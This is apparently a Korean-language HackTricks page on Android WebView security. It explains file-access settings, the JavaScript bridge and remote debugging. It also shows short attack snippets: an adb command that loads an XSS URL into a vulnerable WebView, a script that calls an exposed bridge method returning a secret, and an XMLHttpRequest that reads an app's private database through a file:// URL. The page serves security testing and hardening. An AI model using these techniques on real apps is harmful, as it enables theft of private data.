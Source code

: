 # Webview Attacks

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Guide on WebView Configurations and Security

### Overview of WebView Vulnerabilities

안드로이드 개발의 중요한 측면은 WebView의 올바른 처리입니다. 이 가이드는 WebView 사용과 관련된 위험을 완화하기 위한 주요 구성 및 보안 관행을 강조합니다.

![WebView Example](<../../.gitbook/assets/image (1190).png>)

### **File Access in WebViews**

기본적으로 WebView는 파일 접근을 허용합니다. 이 기능은 Android API 레벨 3(Cupcake 1.5)부터 사용할 수 있는 `setAllowFileAccess()` 메서드로 제어됩니다. **android.permission.READ\_EXTERNAL\_STORAGE** 권한이 있는 애플리케이션은 파일 URL 스킴(`file://path/to/file`)을 사용하여 외부 저장소에서 파일을 읽을 수 있습니다.

#### **Deprecated Features: Universal and File Access From URLs**

* **Universal Access From File URLs**: 이 사용 중단된 기능은 파일 URL에서 교차 출처 요청을 허용하여 잠재적인 XSS 공격으로 인한 상당한 보안 위험을 초래했습니다. 기본 설정은 Android Jelly Bean 및 이후 버전을 대상으로 하는 앱에 대해 비활성화(`false`)되어 있습니다.
* 이 설정을 확인하려면 `getAllowUniversalAccessFromFileURLs()`를 사용하십시오.
* 이 설정을 수정하려면 `setAllowUniversalAccessFromFileURLs(boolean)`를 사용하십시오.
* **File Access From File URLs**: 이 기능도 사용 중단되었으며, 다른 파일 스킴 URL에서 콘텐츠에 대한 접근을 제어했습니다. 유니버설 접근과 마찬가지로 기본값은 보안을 강화하기 위해 비활성화되어 있습니다.
* 확인하려면 `getAllowFileAccessFromFileURLs()`를 사용하고 설정하려면 `setAllowFileAccessFromFileURLs(boolean)`를 사용하십시오.

#### **Secure File Loading**

자산 및 리소스에 접근하면서 파일 시스템 접근을 비활성화하려면 `setAllowFileAccess()` 메서드를 사용합니다. Android R 이상에서는 기본 설정이 `false`입니다.

* `getAllowFileAccess()`로 확인하십시오.
* `setAllowFileAccess(boolean)`로 활성화 또는 비활성화하십시오.

#### **WebViewAssetLoader**

**WebViewAssetLoader** 클래스는 로컬 파일을 로드하기 위한 현대적인 접근 방식입니다. 이는 로컬 자산 및 리소스에 접근하기 위해 http(s) URL을 사용하며, 동일 출처 정책에 맞춰 CORS 관리를 용이하게 합니다.

### loadUrl

이것은 웹뷰에서 임의의 URL을 로드하는 데 사용되는 일반적인 함수입니다:
```java
webview.loadUrl("<url here>")
```
물론, 잠재적인 공격자는 애플리케이션이 로드할 **URL**을 절대 제어할 수 없어야 합니다.

### **JavaScript 및 Intent Scheme 처리**

* **JavaScript**: WebViews에서 기본적으로 비활성화되어 있으며, `setJavaScriptEnabled()`를 통해 활성화할 수 있습니다. 적절한 안전 장치 없이 JavaScript를 활성화하면 보안 취약점이 발생할 수 있으므로 주의가 필요합니다.
* **Intent Scheme**: WebViews는 `intent` 스킴을 처리할 수 있으며, 신중하게 관리하지 않으면 악용될 수 있습니다. 예를 들어, 노출된 WebView 매개변수 "support\_url"이 XSS 공격을 실행하는 데 악용될 수 있는 취약점이 있었습니다.

![Vulnerable WebView](<../../.gitbook/assets/image (1191).png>)

adb를 사용한 악용 예시:

{% code overflow="wrap" %}
```bash
adb.exe shell am start -n com.tmh.vulnwebview/.SupportWebView –es support_url "https://example.com/xss.html"
```
{% endcode %}

### Javascript Bridge

Android는 **JavaScript**가 WebView에서 **네이티브 Android 앱 기능**을 호출할 수 있도록 하는 기능을 제공합니다. 이는 `addJavascriptInterface` 메서드를 활용하여 JavaScript와 네이티브 Android 기능을 통합함으로써 이루어지며, 이를 _WebView JavaScript bridge_라고 합니다. 이 메서드는 WebView 내의 모든 페이지가 등록된 JavaScript Interface 객체에 접근할 수 있도록 하므로, 이러한 인터페이스를 통해 민감한 정보가 노출될 경우 보안 위험이 발생할 수 있으므로 주의가 필요합니다.

* **Android 4.2 이하 버전을 타겟으로 하는 앱은 극도의 주의가 필요**합니다. 이는 악성 JavaScript를 통해 원격 코드 실행을 허용하는 취약점이 존재하기 때문입니다.

#### JavaScript Bridge 구현하기

* **JavaScript 인터페이스**는 네이티브 코드와 상호작용할 수 있으며, 클래스 메서드가 JavaScript에 노출되는 예시에서 볼 수 있습니다:
```javascript
@JavascriptInterface
public String getSecret() {
return "SuperSecretPassword";
};
```
* JavaScript Bridge는 WebView에 인터페이스를 추가하여 활성화됩니다:
```javascript
webView.addJavascriptInterface(new JavascriptBridge(), "javascriptBridge");
webView.reload();
```
* JavaScript를 통한 잠재적 악용, 예를 들어 XSS 공격을 통해 노출된 Java 메서드를 호출할 수 있습니다:
```html
<script>alert(javascriptBridge.getSecret());</script>
```
* 위험을 완화하기 위해, **JavaScript 브리지 사용을** APK와 함께 제공된 코드로 제한하고 원격 소스에서 JavaScript 로딩을 방지하십시오. 구형 장치의 경우 최소 API 수준을 17로 설정하십시오.

### 리플렉션 기반 원격 코드 실행 (RCE)

* 문서화된 방법을 통해 특정 페이로드를 실행하여 RCE를 달성할 수 있습니다. 그러나 `@JavascriptInterface` 주석은 무단 메서드 접근을 방지하여 공격 표면을 제한합니다.

### 원격 디버깅

* **원격 디버깅**은 **Chrome 개발자 도구**를 사용하여 가능하며, WebView 콘텐츠 내에서 상호작용 및 임의의 JavaScript 실행을 가능하게 합니다.

#### 원격 디버깅 활성화

* 원격 디버깅은 다음을 통해 애플리케이션 내 모든 WebView에 대해 활성화할 수 있습니다:
```java
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
WebView.setWebContentsDebuggingEnabled(true);
}
```
* 애플리케이션의 디버깅 가능 상태에 따라 디버깅을 조건부로 활성화하려면:
```java
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
if (0 != (getApplicationInfo().flags & ApplicationInfo.FLAG_DEBUGGABLE))
{ WebView.setWebContentsDebuggingEnabled(true); }
}
```
## 임의 파일 추출

* XMLHttpRequest를 사용하여 임의 파일의 추출을 시연합니다:
```javascript
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
if (xhr.readyState == XMLHttpRequest.DONE) {
alert(xhr.responseText);
}
}
xhr.open('GET', 'file:///data/data/com.authenticationfailure.wheresmybrowser/databases/super_secret.db', true);
xhr.send(null);
```
## References

* [https://labs.integrity.pt/articles/review-android-webviews-fileaccess-attack-vectors/index.html](https://labs.integrity.pt/articles/review-android-webviews-fileaccess-attack-vectors/index.html)
* [https://github.com/authenticationfailure/WheresMyBrowser.Android](https://github.com/authenticationfailure/WheresMyBrowser.Android)
* [https://developer.android.com/reference/android/webkit/WebView](https://developer.android.com/reference/android/webkit/WebView)
* [https://medium.com/@justmobilesec/deep-links-webviews-exploitations-part-ii-5c0b118ec6f1](https://medium.com/@justmobilesec/deep-links-webviews-exploitations-part-ii-5c0b118ec6f1)
* [https://www.justmobilesec.com/en/blog/deep-links-webviews-exploitations-part-I](https://www.justmobilesec.com/en/blog/deep-links-webviews-exploitations-part-I)

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
